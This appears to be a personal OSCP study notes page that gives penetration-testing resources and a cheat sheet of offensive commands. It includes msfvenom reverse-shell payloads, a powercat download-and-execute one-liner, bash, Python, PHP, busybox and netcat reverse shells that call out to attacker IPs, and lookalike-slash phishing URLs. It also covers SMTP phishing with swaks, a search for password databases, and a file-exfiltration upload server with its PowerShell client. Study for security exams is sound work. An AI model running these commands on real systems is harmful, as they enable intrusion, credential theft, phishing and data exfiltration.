 ```yaml
---
layout: blank
pagetitle: Miscellaneous Notes
---
```


[https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/](https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/) [Ippsec’s videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) - vital at the beginning - show a bunch of HTB walkthroughs
- [https://ippsec.rocks/?#](https://ippsec.rocks/?#) - search up video on a topic [HackTheBox Active Directory track](https://app.hackthebox.com/tracks/Active-Directory-101) [TJ Null’s list of OSCP-like HTB machines](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159)
- `for i in \$(seq 1 254); do nc -zv -w 1 {IP/24}.$i {port}; done`
    - We have nmap at home
    - For a more basic ping sweep:
        - `for /l %i in (1,1,254) do @ping {IP/24}.%i -w 1 -n 1`

RDP on kali: `xfreerdp3 /u:{username} /p:{password} /v:{IP} (optional)/d:{domain} (optional)/drive:shared,/home/kali/Downloads/`
- Dealing with powershell wrapping? Just put the entire output in a variable and do `${variable} | Out-GridView`

Fixing Memory Corruption Exploits
- If it needs to be compiled on windows, use mingw-w64
    - `sudo apt install mingw-w64`
    - `i686-w64-mingw32-gcc`
    - `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
    - if compilation errors arise, just search them up
        - `-lws2_32` can be used for undefined references to _imp
        - `-l` can be used for statically link local libraries
- Can update shellcode in exploits with new shellcode using msfvenom
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- Encoding shellcode for binary for buffer overflow: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw > shellcode.bin`

Seems the WP admin creds are no longer admin/test, but rather admin/password

Phishing with fake slashes: `https://github.com∕praetorian-inc∕noseyparker∕releases∕download∕v0.23.0∕secret-noseyparker-v0.23.0-aarch64-apple-darwin.tar.gz@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32`

Another example: `https://www.amazon.com∕gp∕product∕B008A0GNA8pr=conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6TT&plattr=mathplace=priceblockimp@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32?=96298722-d186-4e28-b5e9-2ca14f49d977`

Using SMTP with `swaks`
- To use an SMTP server, we need a user whose credentials we know on the domain `swaks --server {IP_with_SMTP} --body @{body_txt_file} -ap --from {user@domain} --to {target@domain} --auth-user {user@domain} --auth-password {password} --attach @{file_to_attach} --header "{header_text}"`

If error `no PostgreSQL user name specified in startup packet`, make sure to:
- add env variables:

```
export PGUSER=postgres
export PGDATABASE=postgres
```

Connecting to a device/switch from a mac using an ethernet cable:
- Make sure to manually set IP and interface via Network settings after connecting via USB

- `sudo apt install libpq-dev`
- `sudo apt-get install --reinstall postgresql-client`

Run powercat - `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.220:8000/powercat.ps1');powercat -c 192.168.45.220 -p 4444 -e powershell`

Search for password database - `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

To copy an executable, use `iwr -uri http://{kali_IP}/winPEASx64.exe -Outfile winPEAS.exe` instead of curl

Linux reverse shells:
- `bash -i >& /dev/tcp/{IP}/4444 0>&1`
- `busybox nc 10.10.10.10 1234 -e sh` or `busybox nc 10.10.10.10 1234 -e /bin/sh`
- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
- `<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>`

Windows reverse shell
- Download/transfer netcat (nc.exe within `/usr/share/windows-resources/binaries/nc.exe`)
- `C:\Windows\Temp\nc.exe -e powershell.exe {kali_IP} 4444` Powershell reverse shell
- Can also just do it with powershell alone - [https://khaelkugler.com/scripts/powershell_revshell.py](https://khaelkugler.com/scripts/powershell_revshell.py)

Transfer files with xfreerdp3 - `xfreerdp3 /u:{u} /p:{p} /v:{IP} /drive:mydrive,{local_dir_path}`

Upgrading linux shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
    
```

Exfiltrate files off of a Windows system `sudo python3 app.py` (if [updog](https://github.com/sc0tfree/updog) isn't available)

```

#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer
import os

class FileUploadHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Get the filename from the POST headers if provided
        filename = self.headers.get('filename', 'upload.bin')

        # Save the uploaded file
        with open(filename, 'wb') as f:
            f.write(post_data)

        # Send a response back to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully')

if __name__ == "__main__":
    server_address = ('0.0.0.0', 8080)  # Use any port you want
    httpd = HTTPServer(server_address, FileUploadHTTPRequestHandler)
    print(f"Serving HTTP on {server_address[0]} port {server_address[1]} (http://{server_address[0]}:{server_address[1]}/)")
    httpd.serve_forever()
    
```

`Invoke-WebRequest -Uri "http://{kali_IP}:8080/upload" -Method Post -InFile "{filename}" -Headers @{"filename"="{filename}"} -UseBasicParsing`
